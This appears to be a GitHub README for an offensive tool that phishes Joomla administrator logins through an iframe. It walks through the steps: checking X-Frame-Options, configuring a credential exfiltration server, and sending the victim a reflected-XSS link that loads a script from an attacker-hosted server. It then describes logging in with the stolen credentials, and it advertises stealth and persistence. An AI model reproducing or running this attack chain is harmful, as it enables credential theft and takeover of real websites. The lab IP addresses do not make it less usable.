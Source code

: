 # [Phish] Iframe Login Page

* **NOTES**:
  * stealthy
  * persistent
    * exploit stays active:
      * upon failed login
      * upon logout (i.e. login ➔ logout)
    * exploit will remain active until victim's web browsers cache is cleared
  * avoids excessive log spam
    * exploit exfiltrates credentials only on submit form event (logs both successful and failed authentication attempts)

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [test target login page] navigate to target application in web browser

    http://192.168.5.19

2. [test target login page] confirm target login is iframe-able

    *(open developer console and execute following code)*

    ```
    const url = "http://192.168.5.19/administrator/";
    const req = new XMLHttpRequest();
    req.open("GET", url, false);
    req.send(null);
    console.log("Endpoint: " + url + "\nX-Frame-Options (response header): " + req.getResponseHeader("X-Frame-Options"));
    ```

    * **NOTE**: default install value: `SAMEORGIN` (vulnerable)

3. [setup exploit] change payload variable values (`phishLoginJoomla.js`)

    `exfilWebServer` - web server URL for credential exfiltration

    `joomlaRoot` - path to Joomla installation on the target system (e.g. `"/path"`)

4. [setup exploit] setup web server (to serve the payload)

5. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.19/test/rxss.php?q=<script src=http://192.168.5.15/phishLoginJoomla.js></script>
    ```

    * **NOTES**:
      * `192.168.5.19` - target Joomla site
      * `192.168.5.15` - web server hosting payload

6. [social engineering attack] victim user authenticates

    *(attacker obtains credentials)*

7. [post exploit] attacker logs into target Joomla site using obtained credentials

    http://192.168.5.19/administrator/

## Screenshots

* **NOTE**: the screenshot covers steps 3 to 6 from the "Exploitation Steps" chapter

![Image](screenshots/Joomla_-_iframe_login_-_1-1.png)
